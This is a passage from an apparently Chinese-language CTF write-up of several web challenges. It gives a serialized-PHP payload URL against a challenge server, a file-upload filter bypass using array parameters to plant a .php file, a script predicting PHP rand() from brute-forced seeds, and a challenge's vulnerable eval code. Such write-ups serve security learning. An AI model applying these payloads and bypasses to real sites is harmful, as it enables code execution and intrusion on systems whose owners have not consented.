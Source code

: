 ```php
}

?>


```

参考https://moxiaoxi.info/2016/07/24/X-NUCA/的Web4即可。

Payload:

`http://202.112.26.124:8080/95fe19724cc6084f08366340c848b791/index.php?foo=a:5:{s:6:"param1";s:9:"2018adsad";s:6:"param2";a:5:{i:0;a:1:{i:0;i:0;}i:1;i:0;i:2;i:2;i:3;i:3;i:4;i:4;}s:2:"a2";i:3;s:1:"d";i:4;s:1:"e";i:5;}&egg[1][]=%221%22&fish=%00&egg[0]="MyAns"`

![2](https://moxiaoxi.info/img/post/EIS/2.png)

## 文件上传

水题，用数组绕过正则过滤。设定文件名后缀为.php，文件内容上传时，将上传内容字段设为数组，即可绕过对尖括号的过滤。访问上传的php文件后即可得到flag。

## 随机数

```php
<?php
for($i=0;$i<1001;$i++) {
   srand($i);
   echo $i.' : '.rand(0,1000).', '.rand(0,1000).', '.rand(0,1000).', '.rand(0,1000).'</br>';
}
?>

```

通过上述代码生成了一个类似彩虹表的东西，查询一下即可。

![3](https://moxiaoxi.info/img/post/EIS/3.png)

## PHP代码审计

```php
<?php   
error_reporting(0); 
include "flag1.php"; 
highlight_file(__file__); 
if(isset($_GET['args'])){ 
    $args = $_GET['args']; 
    if(!preg_match("/^\w+$/",$args)){ 
        die("args error!"); 
    } 
    eval("var_dump($$args);"); 
} 
```

